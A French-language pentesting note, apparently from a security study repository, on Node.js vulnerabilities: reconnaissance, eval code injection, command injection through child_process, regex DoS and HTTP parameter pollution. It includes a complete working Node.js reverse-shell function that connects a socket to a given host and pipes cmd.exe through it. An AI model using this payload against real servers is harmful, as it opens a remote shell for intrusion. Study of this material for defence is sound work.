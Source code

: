 # Vulnérabilités NodeJS

## Présentation
NodeJS est un langage basé sur javascript côté serveur basé sur un système d'évènements qui n'est pas bloquant pour les E/S ce qui lui permet d'être une bonne solution pour les contextes à gros volumes de données. 

Il fonctionne en monothread, ce qui peut être très dommageable en cas de DoS.

Une des stack les plus répandues avec NodeJS est une base de donnée NoSQL MongoDB, le framework Express qui est minimaliste mais robuste et facilite grandement le travail des développeurs pour le web et le mobile, et le moteur de template Pug.

En ce qui concenrne le système de packages, NodeJS dispo du plus grand système au monde avec près d'un demi millions de paquets : NPM.

NodeJS ne déroge pas à la règle du web, il est vulnérable sur les entrées utilisateurs non sécurisées. Avec Node il est important de savoir ce que l'on cherche et oùu on le cherche.

## Reconnaissance spécifique
Pour la reconnaissance spécifique à Node, il faut regarder:
* les cookies `connect.sid`
* les entêtes serveurs et `X-powered-By` qui vont nous permettrent d'identifier le framework utilisé (par exemple Express)

Il est également possible d'analyser le code de façon statique à l'aide d'un scanner tel que [NodeJsScan](https://github.com/ajinabraham/NodeJsScan) afin de chercher des vulnérabilités (à travers notamment des fonctions dont les entrées utilisateurs sont non testées).

## Exploitation
### Server Side Code Injection
Node est vunléralbe à l'injection de code à travers la fonction `eval()`. Il ne faut ainsi utiliser les entrées utilisateurs sans les avoir testées. Il ne faut surtout pas les passer directement à des fonctions comme `setTimeOut()` ou `setInterval()`. 

Voici un exemple de code permettant d'obtenir un reverse shell avec NodeJS:


    function rev(host,port){
        var net = require(“net”);
        var cp = require(“child_process”);
        var cmd = cp.spawn(“cmd.exe”, []);
        var client = new net.Socket();
        client.connect(port, host, function(){
            client.write(“Connected\r\n”);

            client.pipe(cmd.stdin);

            cmd.stdout.pipe(client);

            cmd.stderr.pipe(client);

            client.on(‘exit’,function(code,signal){

                client.end(“Disconnected\r\n”);

            });

            client.on(‘error’,function(e){

                setTimeout(rev(host,port),5000);

            })

        });

        return /a/;

    };rev(“127.0.0.1”,4444);

### System Command Injection
NodeJS est vulnérable aux injections de commandes à travers l'utilisation du module `child_process` et notamment la fonction `exec`. Son utilisation sans test de l'entré utilisateur créé un point d'entrée pour l'attaquant.

### Regex DOS
Il est possible de faire crashé une webapp Node avec les regex si nous ne contrôlons pas les entrées utilisateurs. Si une regex attendues défini le début et la fin de l'expression attendu, si au lieu de donner la fin, l'expression reprend le caractère du début de nombreuses fois sans jamais envoyer le caractère de fin, le temps d'exécution va finir par exploser et le service par crashé.

### HTTP Parameter Pollution
Node permet de définir dans une URL plusieurs fois le même paramètres avec plusieurs valeurs différentes. Cela peut être utilisé pour pollué une applicatin qui attendrait un mail pour envoyr quelquechose par exemple.

## voir peter kim sur le rce p109

## Liens 
* https://resources.infosecinstitute.com/penetration-testing-node-js-applications-part-1/#gref
* https://resources.infosecinstitute.com/penetration-testing-node-js-applications-part-2/#gref
